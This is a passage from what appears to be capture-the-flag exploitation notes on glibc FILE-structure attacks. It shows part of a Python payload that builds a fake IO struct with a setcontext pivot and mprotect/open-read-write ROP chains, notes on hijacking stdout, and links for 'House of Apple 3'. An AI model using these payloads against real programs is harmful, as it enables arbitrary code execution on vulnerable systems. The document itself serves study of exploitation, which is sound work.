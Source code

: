 ```py
        0x40: orw_chain,	# mprotect ->
        0xa0: [fakeIO_addr+0x230, ret],	# setcontext ->
        0xe0: fakeIO_addr+0x200,	# _wide_vtable
    },
    # fake_IO->wide_data->_wide_vtable
    0x200: {
        # <+61>:  mov rsp, [rdx+0xa0]
        # <+294>: mov rcx, [rdx+0xa8]
        # <+301>: push rcx
        # <+334>: ret
        0x18: setcontext,	# _IO_WOVERFLOW
        0x30: mprotect_chain
    }
}, filler='\0')

# largebin attack: bk_nextsize=stdout-0x20
```

- Overwriting `_lock` pointer is not necessary if we don't attack the `stdout` FILE struct.
- If we aim to hijack `stdout`, the pointer `_lock` should be considered:
  - `[_lock]` readable;
  - `[_lock+8]` readable;
  - `[[_lock]]` writable.
- Or we can write an address near `_IO_stdfile_1_lock`.
- If the program is using `read` function, we can put a heap address into `_lock`.
- GDB Breakpoints: `_IO_file_xsputn`, `_IO_file_seekoff`.







## House of Apple 3

House analysis: [link](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-3/) by author *Roderick*.

IO structs offset: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/IO%20Structs/IO_structs.md).

EXP template: [link](https://github.com/4xura/Axura-pwn-exp/blob/master/xpl.py).